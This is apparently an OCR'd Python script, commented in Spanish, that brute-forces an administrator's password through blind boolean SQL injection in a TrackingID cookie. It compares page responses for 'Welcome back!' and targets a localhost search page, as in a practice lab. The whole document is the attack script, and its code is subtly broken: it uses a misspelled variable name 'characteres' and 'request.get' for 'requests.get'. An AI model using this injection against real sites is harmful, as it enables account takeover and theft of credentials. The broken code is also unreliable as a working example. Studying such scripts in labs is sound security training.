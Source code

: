 ```python
# Obtener la passwd de un usuario conocido en una DB conocida 

#!/usr/bin/python3

from pwn import *
import requests
import signal
import sys
import time
import string
import pdb


def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.ascii_lowercase + string.digits

def MakeSQLI():

    password = ""
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Password")

    for position in range(1, 21):
	    for character in characteres:
		    cookies = {
			    'TrackingID': "shasfdgh' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
			    'session': 'ajeirbji'
		    }
		    p1.status(cookies['TrackingID'])
		    r = request.get(main_url, cookies=cookies)
		    if "Welcome back!" in r.text:         # Texto donde esta el error en la pagina, si sale eso es correcto 
			    password += character
			    p2.status(password)
			    break

if __name__ == '__main__':
    MakeSQLI()
```
